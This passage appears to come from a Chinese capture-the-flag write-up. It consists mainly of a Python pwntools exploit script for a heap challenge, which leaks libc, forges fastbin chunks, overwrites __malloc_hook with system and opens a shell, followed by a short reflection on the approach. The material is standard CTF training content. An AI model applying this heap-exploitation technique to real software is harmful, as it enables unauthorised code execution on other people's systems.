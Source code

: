 ```python
libc_leak = u64(c.recv(6).ljust(8, chr(0)))
libc_base = libc_leak - stdout_so
__malloc_hook = libc_base + malloc_so
system = libc_base + system_so
print "libc_base @ " + hex(libc_base)
print "malloc_hook @ " + hex(__malloc_hook)

add('A', 'A', '-32')
add('B', 'B', 0x10)
fake = p64(0)*3
fake += p32(0x71)
add(fake, 'C', 0x48, 0)

delete(0)
delete(2)

payload = 'A' * 8*3
payload += p32((0x40*2) + 0x1)
payload += chr(0)*2
add('A', payload, '-32', 0)

target = __malloc_hook - 0x30 + 0xd

payload = 'B' * 0x8*3
payload += p64(0x71)
payload += p64(target)
edit(1, payload)

add('E', 'E', 0x48)
payload = 'F' * 0x13
payload += p64(system)
add('F', payload, 0x48, 0)

c.sendline("1")
c.sendline(str(0x6020C0 - 0x20))

c.interactive()
```
###写在最后
&nbsp&nbsp&nbsp&nbsp此题的解题套路有很多，因为自身水平有限所以只会用fastbin attack来解orz,最后能做出来也纯属运气，刚好出题人设置了全局变量来leak libc，否则通过malloc_hook来调用system是无法传参的，而把malloc_hook劫持为one_gadget的话在本题是行不通的，所有的gadget都无法拿到shell。
